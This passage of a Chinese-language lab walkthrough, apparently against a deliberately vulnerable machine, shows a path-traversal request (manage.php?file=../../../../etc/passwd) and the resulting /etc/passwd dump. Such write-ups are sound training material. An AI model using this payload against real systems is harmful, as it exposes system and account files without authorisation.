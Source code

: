         | 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
        +----+------------+---------------+---------------------+-----------+-----------+
        ```
        
4. 尝试登录后台，成功登录，寻找可以利用的点
    
    ![image.png](image%2047.png)
    
5. 进入后台发现底下写着`File does not exist` 可能存在某个参数，使用常见参数进行测试比如`file`
    
    ```python
    /manage.php?file=../../../../etc/passwd
    ```
    
    回显`/etc/passwd`文件内容
    
    ```python
    File does not exist
    root:x:0:0:root:/root:/bin/bash 
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
    bin:x:2:2:bin:/bin:/usr/sbin/nologin 
    sys:x:3:3:sys:/dev:/usr/sbin/nologin 
    sync:x:4:65534:sync:/bin:/bin/sync 
    games:x:5:60:games:/usr/games:/usr/sbin/nologin 
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin 
    systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin 
    systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin 
    systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin 
    messagebus:x:104:110::/nonexistent:/usr/sbin/nologin sshd:x:105:65534::/run/sshd:/usr/sbin/nologin 
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin 
    mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false 
    marym:x:1001:1001:Mary Moe:/home/marym:/bin/bash 
    julied:x:1002:1002:Julie Dooley:/home/julied:/bin/bash 
    fredf:x:1003:1003:Fred Flintstone:/home/fredf:/bin/bash 
    barneyr:x:1004:1004:Barney Rubble:/home/barneyr:/bin/bash 